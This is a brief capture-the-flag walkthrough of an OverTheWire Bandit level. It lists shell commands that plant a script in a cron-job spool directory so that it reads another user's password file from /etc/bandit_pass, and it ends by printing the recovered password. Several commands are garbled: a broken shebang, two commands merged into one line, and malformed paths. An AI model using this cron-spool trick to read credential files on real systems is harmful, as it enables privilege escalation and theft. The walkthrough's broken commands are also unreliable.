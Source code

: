 `cmd3 : cat cronjob_bandit24`

`cmd4 : cat /usr/bin/cronjob_bandit24.sh`

`cmd5 : mkdir /tmp/jeanmarc123`

`cmd6 : cd /tmp/jeanmarc123`

`cmd7 : nano bandit24.sh`

`cmd8 : !/bin/bash`

`cmd9 : cat /etc/bandit_pass/bandit24 >> /tmp/jeanmarc123/level24`

`cmd10 : chmod 777 bandit24.sh`

`cmd11 : cp bandit24.sh/var/spool/bandit24/chmod 777 /tmp/jeanmarc123`

`cmd12 : cat level24`

`cmd12 : echo I am user bandit24 | md5sum | cut -d '' -f 1`

`cmd12 : cat /tmp.ee4ee1703b083edac9f8183e4ae70293`

`cmd12 : ssh bandit24@localhost`

<span> **mdp : VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar** </span>

<style>
  h1 {
  margin: 0 auto;
  color: whitesmoke;
  text-decoration: underline;
  font-size: 2.5em;
  font-weight: 900;
  font-family: "Poppins", sans-serif;
}
h2{
  text-decoration: underline;
   padding: 10px;
}
span {
  color: aqua;
  font-size: 1rem;
}
</style>
